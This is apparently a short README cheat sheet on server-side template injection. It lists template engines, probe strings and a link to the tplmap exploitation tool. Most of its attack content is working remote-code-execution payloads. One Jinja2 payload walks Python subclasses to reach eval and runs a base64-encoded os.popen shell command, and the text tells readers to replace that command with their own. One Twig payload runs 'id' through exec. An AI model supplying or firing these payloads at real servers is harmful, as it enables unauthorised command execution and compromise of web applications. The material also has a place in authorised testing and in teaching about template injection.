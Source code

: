 # Requirements

* apt-get install python
* apt-get install python-pip
* pip install flask
* pip install jinja2

# Original Blog:
https://portswigger.net/research/server-side-template-injection

# Web Template Engines

* FreeMarker
	Java-based template engine
* Velocity
	Java-based template engine
* Smarty
	PHP Template engine
* Twig
	PHP Template engine
* Jade 
	Node.js Template engine
* Jinja2
	Python/Flask Template engine

# Basic Payload

* `{{7*7}}`
* `{{7*'7'}}`

# RCE PAYLOAD - JINJA2
`{{5096754695}}{{''}}{%+set+d+=+"eval(__import__('base64').urlsafe_b64decode('X19pbXBvcnRfXygnb3MnKS5wb3BlbihfX2ltcG9ydF9fKCdiYXNlNjQnKS51cmxzYWZlX2I2NGRlY29kZSgnZFc1aGJXVWdMV0U9JykuZGVjb2RlKCkpLnJlYWQoKQ=='))"+%}{%+for+c+in+[].__class__.__base__.__subclasses__()+%}+{%+if+c.__name__+==+'catch_warnings'+%}
{%+for+b+in+c.__init__.__globals__.values()+%}+{%+if+b.__class__+==+{}.__class__+%}
{%+if+'eval'+in+b.keys()+%}
{{+b['eval'](d)+}}
{%+endif+%}+{%+endif+%}+{%+endfor+%}
{%+endif+%}+{%+endfor+%}{{''}}{{9776394213}}`

Note: Decode decode base64 string to to place system commands

# RCE PAYLOAD - TWIG
`{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}`

# Automation tool for SSTI exploitation:
[TPLMap](https://github.com/epinna/tplmap)
